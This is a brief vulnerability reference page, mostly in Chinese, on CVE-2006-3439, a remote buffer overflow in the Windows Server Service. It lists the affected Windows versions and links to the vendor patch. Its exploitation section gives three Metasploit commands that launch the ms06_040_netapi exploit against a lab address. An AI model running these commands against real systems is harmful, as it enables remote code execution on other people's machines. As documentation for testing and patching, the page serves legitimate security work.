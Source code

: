 ###  CVE-2006-3439

#### 描述

Buffer overflow in the Server Service in Microsoft Windows 2000 SP4, XP SP1 and SP2, and Server 2003 SP1 allows remote attackers, including anonymous users, to execute arbitrary code via a crafted RPC message, a different vulnerability than CVE-2006-1314.

#### 影响版本

| Product             | Version | Update | Edition   | Tested |
| ------------------- | ------- | ------ | --------- | ------ |
| Windows 2000        |         | SP4    |           |        |
| Windows 2003 Server | R2      |        |           |        |
| Windows 2003 Server | SP1     |        |           |        |
| Windows 2003 Server | SP1     |        | Itanium   |        |
| Windows 2003 Server | 64-bit  |        |           |        |
| Windows 2003 Server | Itanium |        |           |        |
| Windows Xp          |         | SP1    | Tablet Pc |        |
| Windows Xp          |         | SP2    | Tablet Pc |        |
| Windows Xp          |         |        | 64-bit    |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2006-3439
```

#### 利用方式

msf 利用 测试系统windows server 2000 sp4 x86

```
use exploit/windows/smb/ms06_040_netapi
set RHOST 192.168.1.17
run
```

